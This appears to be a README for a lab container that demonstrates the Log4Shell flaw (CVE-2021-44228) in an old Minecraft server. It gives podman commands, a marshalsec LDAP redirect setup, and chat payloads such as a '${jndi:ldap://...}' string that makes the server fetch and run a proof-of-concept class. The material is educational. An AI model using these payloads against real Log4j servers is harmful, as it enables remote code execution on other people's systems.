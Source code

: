 # Minecraft Log4shell CVE-2021-44228

```
podman pull lacike3/attacks-demo:minecraft-log4shell
```

The Docker image contains the old version of Minecraft 1.8.8 with vulnerable version of Log4j library. It also contains old version of Java 8u181. This is one of the versions allowing the remote code execution through JNDI lookups with LDAP names. You can find more details about the Log4j exploitation vectors and affected Java runtime versions in [this post by Moritz Bechler](https://mbechler.github.io/2021/12/10/PSA_Log4Shell_JNDI_Injection/).

There is also the [marshalsec](https://github.com/mbechler/marshalsec) tool for redirecting the LDAP references to a Java class served by simple Python webserver.

The POC Java class just execute the `whoami` command and print a simple message.

![Minecraft Log4shell Demonstration](./minecraft-log4shell.gif)

## Build

```
podman build --rm -t minecraft-log4shell -f Dockerfile .
```

## Usage

For simple demo and playing with the vulnerable Minecraft server in the tmux session, just run

```
podman run --rm -it attacks-demo:minecraft-log4shell
```

and then navigate to the Minecraft window with CTRL+B and Up. You can send the chat messages in behalf of the server with the command `say`, e.g.:
* `say hello`
* `say ${env:PATH}` (example of environment variable lookup)
* `say ${jndi:ldap://127.0.0.1:1389/Log4Shell}` (example of JNDI LDAP lookup, which downloads and executes POC.class by the vulnerable Minecraft server)

For stopping the server, just type `stop`. For another commands and help, type `help`.

If you wish to connect your Minecraft client to the vulnerable Minecraft server and send the above messages by the player to the chat, you can expose the Minecraft server to the localhost:

```
podman run --rm -it -p 25565:25565 attacks-demo:minecraft-log4shell
```

